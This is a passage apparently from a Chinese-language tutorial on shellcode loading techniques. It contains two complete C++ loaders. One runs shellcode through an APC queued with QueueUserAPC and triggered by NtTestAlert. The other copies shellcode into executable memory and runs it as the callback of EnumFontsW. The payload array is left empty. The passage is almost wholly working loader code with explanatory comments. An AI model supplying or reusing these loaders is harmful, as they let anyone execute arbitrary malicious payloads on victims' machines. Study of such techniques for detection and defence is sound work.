 ```cpp
void ApcLoader() {
    // 修改 shellcode 所在内存区域的保护属性，允许执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    /*
    获取NtTestAlert函数地址, 因为它是一个内部函数.无法直接通过函数名调用
    这个函数用于检查当前线程的 APC（Asynchronous Procedure Call，异步过程调用）队列，如
    果队列中有挂起的用户模式 APC 请求，NtTestAlert 将触发它们的执行
    */
    pNtTestAlert NtTestAlert = (pNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));

    // 向当前线程的异步过程调用(APC)队列添加一个执行shellcode的任务
    QueueUserAPC((PAPCFUNC)(PTHREAD_START_ROUTINE)(LPVOID)shellcode, GetCurrentThread(), NULL);

    //调用NtTestAlert，触发 APC 队列中的任务执行（即执行 shellcode）
    NtTestAlert();
}


void main() {
    ApcLoader();
}
```



# 7.基于回调函数

## EnumFontsW

这段代码的关键在于它使用 `EnumFontsW` 函数的回调机制来执行 shellcode。当 `EnumFontsW` 函数遍历到一个字体时，它将调用 shellcode 作为回调函数来处理字体信息。由于回调函数直接指向 shellcode，这样可以间接地加载并执行 shellcode

```cpp
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));

    /*
    * EnumFontsW是Windows API，用于枚举系统中所有可用字体
    * 参数1：设备环境句柄，表示要枚举哪个设备的字体
    * 参数2：NULL表示枚举所有字体
    * 参数3：回调函数指针，用于处理每个枚举到的字体信息
    * 参数4：回调函数参数
    */
    EnumFontsW(GetDC(NULL), NULL, (FONTENUMPROCW)p, NULL); //回调函数

}

int main() {
    CallBack();
}
```
